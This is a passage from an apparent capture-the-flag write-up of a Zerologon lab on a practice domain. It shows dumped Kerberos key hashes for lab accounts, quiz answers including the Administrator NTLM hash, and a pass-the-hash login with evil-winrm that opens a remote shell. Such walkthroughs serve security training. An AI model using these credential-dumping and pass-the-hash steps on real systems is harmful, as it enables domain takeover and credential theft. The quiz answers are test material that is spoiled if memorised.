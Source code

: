 ```
hololive.local\a-fubukis:aes128-cts-hmac-sha1-96:883e1d7b14b9024527bd7da69c80a350
hololive.local\a-fubukis:des-cbc-md5:94294304ec7637c1
hololive.local\matsurin:aes256-cts-hmac-sha1-96:cfde1ad860382daa706dd11d585ff1512eef873dc85ae9a88437dc7501fa8e04
hololive.local\matsurin:aes128-cts-hmac-sha1-96:08a011409d044e2f1aec7a6782cbd7b5
hololive.local\matsurin:des-cbc-md5:04fde39d61c215fe
hololive.local\fubukis:aes256-cts-hmac-sha1-96:ed8e594f0b6b89cfa8030bcf9f3e41a9668793a12f598e42893fe8c9f6c5b8eb
hololive.local\fubukis:aes128-cts-hmac-sha1-96:ee003acb55927bb733826aa9a9ddfb53
hololive.local\fubukis:des-cbc-md5:075b8ffde398fe80
hololive.local\koronei:aes256-cts-hmac-sha1-96:6df316ac8564b8254457d973ad61a71a1dfcc5ffe6218cb39f14bb0bbda4a287
hololive.local\koronei:aes128-cts-hmac-sha1-96:6afe7f4196657648505d2af9bbfaf8ba
hololive.local\koronei:des-cbc-md5:a737e6073d15aecd
hololive.local\okayun:aes256-cts-hmac-sha1-96:cf262ddfb3239a555f9d78f90b8c01cd51032d34d104d366b4a94749b47fe6c5
hololive.local\okayun:aes128-cts-hmac-sha1-96:53be14aa0da3f7b657e42c5ed1cef12a
hololive.local\okayun:des-cbc-md5:10896d3786b9628f
hololive.local\watamet:aes256-cts-hmac-sha1-96:45f99941cfc277515aff47a4dfc936e805f7fedd3d175524708c868e2c405ec9
hololive.local\watamet:aes128-cts-hmac-sha1-96:07a6307a5b58f33a61271516ac3364cc
hololive.local\watamet:des-cbc-md5:bf622564a840f192
hololive.local\mikos:aes256-cts-hmac-sha1-96:aab547ee10782fef9aea3b4be5392e7ca9605d0dca95f7510dca40b9628f4233
hololive.local\mikos:aes128-cts-hmac-sha1-96:5c56246d1fd7a4db5ff4fb65ba597e42
hololive.local\mikos:des-cbc-md5:6b2f7fa7a4ecd0c1
DC01$:aes256-cts-hmac-sha1-96:dbf8dbaaccbf17d6fb96cbb3c4046099a4a41d1453ff2d8a8970216ed15d9bf8
DC01$:aes128-cts-hmac-sha1-96:4c146fe76ec6150267564d9bd69769d8
DC01$:des-cbc-md5:cd161923ab9ec11c
[*] Cleaning up...
```

What is the Local Administrator's NTLM hash?
*3f3ef89114fb063e3d7fc23c20f65568*

How many Domain Admin accounts are there?
*2* (All Domain Admin accounts are prefixed with A-)

```
┌──(impacketEnv)─(kali㉿kali)-[~/Downloads/zerologon_learning]
└─$ evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.212.36

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine             

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                               

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        9/16/2020   4:52 PM                3D Objects
d-r---        9/16/2020   4:52 PM                Contacts
d-r---        10/7/2020   5:13 PM                Desktop
```